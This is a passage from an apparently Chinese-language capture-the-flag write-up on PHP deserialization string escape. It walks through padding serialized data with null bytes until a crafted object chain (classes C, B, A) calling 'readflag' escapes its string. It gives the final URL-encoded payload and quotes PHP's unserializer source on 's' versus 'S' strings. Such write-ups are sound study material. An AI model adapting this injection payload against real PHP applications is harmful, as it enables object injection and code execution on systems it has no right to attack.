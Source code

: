 接下来就是进行字符逃逸，先通过 `str_repeat("\0", 96)` 进行尝试得到的结果如下：（192 个 0）

```
O:1:"C":2:{s:1:"s";s:194:"000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}";s:3:"str";N;}
```

不足以逃逸就继续向上增，增到 98 时发现正好足够：（196 个 0）

```
O:1:"C":2:{s:1:"s";s:196:"0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}";s:3:"str";N;}
```

这时候就已经逃逸成功了！flag 也就出来力！

通过 `urlencode()` 就可以得到 payload力

```
%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%22%3Bs%3A3%3A%22str%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A1%3A%22A%22%3A1%3A%7Bs%3A3%3A%22key%22%3BS%3A5%3A%22%5C%00key%5C%00%22%3B%7Di%3A1%3Bs%3A8%3A%22readflag%22%3B%7D%7D%7D
```

#### **序列化 s 与 S 的补充**

https://github.com/php/php-src/blob/e8fb0edc69598e7d9380f61a1ab551b5ec6c27ca/ext/standard/var\_unserializer.re#L1025C20-L1094

```cpp
"s:" uiv ":" ["] 	{
	size_t len, maxlen;
	char *str;

	len = parse_uiv(start + 2);
	maxlen = max - YYCURSOR;
	if (maxlen < len) {
		*p = start + 2;
		return 0;
	}

	str = (char*)YYCURSOR;

	YYCURSOR += len;

	if (*(YYCURSOR) != '"') {
		*p = YYCURSOR;
		return 0;
	}

	if (*(YYCURSOR + 1) != ';') {
		*p = YYCURSOR + 1;
		return 0;
	}

	YYCURSOR += 2;
	*p = YYCURSOR;

	if (!var_hash) {
		/* Array or object key unserialization */
		ZVAL_STR(rval, zend_string_init_existing_interned(str, len, 0));
	} else {
```